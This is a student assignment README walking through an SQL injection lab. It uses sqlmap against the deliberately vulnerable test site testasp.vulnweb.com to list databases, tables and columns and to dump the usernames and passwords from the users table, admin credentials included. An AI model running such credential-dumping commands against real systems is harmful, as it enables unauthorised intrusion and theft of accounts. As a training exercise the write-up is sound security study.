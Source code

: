 # Abdullah Baig | 231485698 | Assignment 1

## Installation of `sqlmap`
- Installed ```sqlmap``` on Ubuntu Terminal using ```sudo apt install sqlmap```.


# SQL Injection Attack
- Go to [Vulnweb](https://vulnweb.com)
- Next step is to find a link that makes a request to the database, the link is `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 --dbs`
- To find tables `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 -D acuforum --tables`
- To find columns `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1-D acuforum -T users --columns`
- Dump username and password column with data in a file `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 -D acuforum -T users -C uname --dump` & `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 -D acuforum -T users -C upass --dump`

This is how the usernames and passwords of [Acuform](http://testasp.vulnweb.com/) were obtained including the admin credentials.

# Dump / Screenshots
## Command 1
<img width="1000" alt="ss" src="assets/1.png">